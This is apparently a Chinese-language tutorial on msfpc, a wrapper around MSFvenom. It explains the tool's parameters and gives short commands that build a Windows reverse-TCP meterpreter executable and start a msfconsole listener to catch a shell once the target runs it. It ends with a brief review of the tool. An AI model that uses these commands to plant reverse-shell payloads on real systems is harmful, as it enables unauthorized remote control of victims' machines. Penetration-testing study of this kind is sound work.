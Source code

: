 # msfpc
## 简介
MSFvenom Payload Creator（msfpc）是一个基于MSFvenom的Payload生成器，旨在简化Payload的创建过程，使用户尽可能简单的创建payload
## 参数详解
```
msfpc <TYPE> (<DOMAIN/IP>) (<PORT>) (<CMD/MSF>) (<BIND/REVERSE>) (<STAGED/STAGELESS>) (<TCP/HTTP/HTTPS/FIND_PORT>) (<BATCH/LOOP>) (<VERBOSE>)
```
+ < type>：
  + APK
  + ASP
  + ASPX
  + Bash [.sh]
  + Java [.jsp]
  + Linux [.elf]
  + OSX [.macho]
  + Perl [.pl]
  + PHP
  + Powershell [.ps1]
  + Python [.py]
  + Tomcat [.war]
  + Windows [.exe // .dll]
+ <DOMAIN/IP>：默认IP菜单，除了IP地址，还允许输入eth0，lo，wan
+ < PORT>：默认443
+ <CMD/MSF>：默认MSF    
  + CMD：用cmd进行交互
  + MSF：用msf进行交互，功能较强
+ <BIND/REVERSE>：默认REVERSE
  + BIND：正向连接
  + REVESE：反向连接
+ <STAGED/STAGELESS>：默认STAGED
  + STAGED：将payload分块，使其更小，依赖Metasploit
  + STAGELESS：完整独立的payload，比STAGED稳定
+ <TCP/HTTP/HTTPS/FIND_PORT>：默认TCP
  + TCP：tcp连接，最兼容types，容易被ids检测
  + HTTP：http连接，限制协议端口访问，如80
  + HTTPS：https连接，限制协议端口访问，如443
  + FIND_PORT：尝试在所有端口寻找出路
+ <BATCH/LOOP>
  + BATCH：生成尽可能多的组合
  + LOOP：生成其中一种
+ <VERBOSE>：显示更多信息：type，size，md5和sha1
## 简单使用实例
1. 使用msfpc生成payload
```
msfpc windows eth0
```
![Alt text](./1511872626842.png)
  
2. 使用生成的rc监听(-q 跳过启动画面 -r 加载resources脚本)
```
msfconsole -q -r '/root/msf/windows-meterpreter-staged-reverse-tcp-443-exe.rc'
```
![Alt text](./1511872454543.png)
  
3. 靶机执行exe后

![Alt text](./1511872477273.png)
<br/> 轻松写意获得靶机的shell
## 一点小插曲和个人评价
看完所有参数后，最好奇的是find_port参数，执行后却发现
![Alt text](./1511873549693.png)
Metaspolit不支持！！！
个人觉得msfpc对新手挺友好的，虽然缺少了msfvenom的编码功能，命令行参数也差不多，但胜在能自动生成rc文件，在侦听时非常方便！

